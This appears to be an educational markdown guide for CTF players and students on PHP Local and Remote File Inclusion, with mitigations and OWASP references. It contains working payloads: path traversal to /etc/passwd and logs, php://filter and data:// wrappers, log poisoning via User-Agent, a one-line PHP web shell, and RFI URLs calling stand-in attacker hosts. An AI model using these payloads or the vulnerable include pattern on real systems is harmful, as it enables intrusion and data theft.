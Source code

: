 
```markdown
# 🔍 LFI & RFI Vulnerabilities - Explained with Examples

## 📘 Introduction

**Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)** are critical web vulnerabilities that occur when user input is passed to file-inclusion functions (like `include`, `require`, `include_once`, `require_once`) without proper validation. These vulnerabilities can lead to sensitive data exposure, information disclosure, and even remote code execution.

---

## 📂 What is LFI (Local File Inclusion)?

**LFI** allows an attacker to trick the server into including local files (files that exist on the server). This usually happens due to insecure dynamic file loading based on user input.

### ✅ LFI Example (PHP)

```php
<?php
  $page = $_GET['page'];
  include($page);
?>
```

If accessed like:

```
http://example.com/index.php?page=about.php
```

An attacker can exploit it as:

```
http://example.com/index.php?page=../../../../etc/passwd
```

This can show the content of the `/etc/passwd` file (on Linux systems).

### 📁 Common LFI Payloads

- `?page=../../../../etc/passwd`
- `?page=../../../../var/log/apache2/access.log`
- `?page=php://filter/convert.base64-encode/resource=index.php`
- `?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==` (if data wrapper is enabled)

---

## 🌐 What is RFI (Remote File Inclusion)?

**RFI** allows an attacker to include a remote file hosted on another server. If the server is misconfigured (i.e., `allow_url_include = On`), a remote script can be fetched and executed — leading to full compromise.

### ✅ RFI Example (PHP)

```php
<?php
  $page = $_GET['page'];
  include($page);
?>
```

If accessed like:

```
http://example.com/index.php?page=http://attacker.com/shell.txt
```

The `shell.txt` could contain:

```php
<?php system($_GET['cmd']); ?>
```

And the attacker could run:

```
http://example.com/index.php?page=http://attacker.com/shell.txt&cmd=id
```

Resulting in command execution.

---

## 🔥 Real-World Exploitation Scenarios

### 🐚 LFI to RCE via Log Poisoning

1. Send a request with malicious PHP code in the User-Agent:
   ```
   User-Agent: <?php system($_GET['cmd']); ?>
   ```

2. Then load the Apache log file:
   ```
   http://example.com/index.php?page=../../../../var/log/apache2/access.log&cmd=ls
   ```

3. Code gets executed when the file is included!

---

### 📸 LFI using Base64 Wrapper

```php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

This encodes the source code of the file in base64, useful for code disclosure without execution.

---

## 💣 Impact of LFI & RFI

| Vulnerability | Possible Impact |
|---------------|------------------|
| LFI           | Sensitive file disclosure, RCE via log poisoning, session hijacking |
| RFI           | Remote Code Execution, server takeover, malware injection |

---

## 🛡️ Mitigation & Best Practices

- Never include files based directly on user input.
- Use whitelists for permitted files.
- Disable remote file inclusion in `php.ini`:
  ```ini
  allow_url_include = Off
  allow_url_fopen = Off
  ```
- Validate and sanitize all input using strict filtering.
- Use absolute paths or hardcoded file mappings instead of dynamic includes.

---

## 🧪 Test Your App

### LFI Test Payloads:

```
?page=../../../../etc/passwd
?page=../../../../boot.ini
?page=php://filter/convert.base64-encode/resource=index.php
```

### RFI Test Payloads:

```
?page=http://evil.com/malicious.txt
?page=https://attacker.site/backdoor.php
```

---

## 🧠 References

- [OWASP - Local File Inclusion](https://owasp.org/www-community/attacks/Local_File_Inclusion)
- [OWASP - Remote File Inclusion](https://owasp.org/www-community/attacks/Remote_File_Inclusion)
- [PHP Wrappers](https://www.php.net/wrappers)

---

## 👨‍💻 Author

Made for CTF players, and students.  
Keep learning, stay ethical! 🛡️

** Younes SABER **
[seeyou](https://github.com/seeyou7)

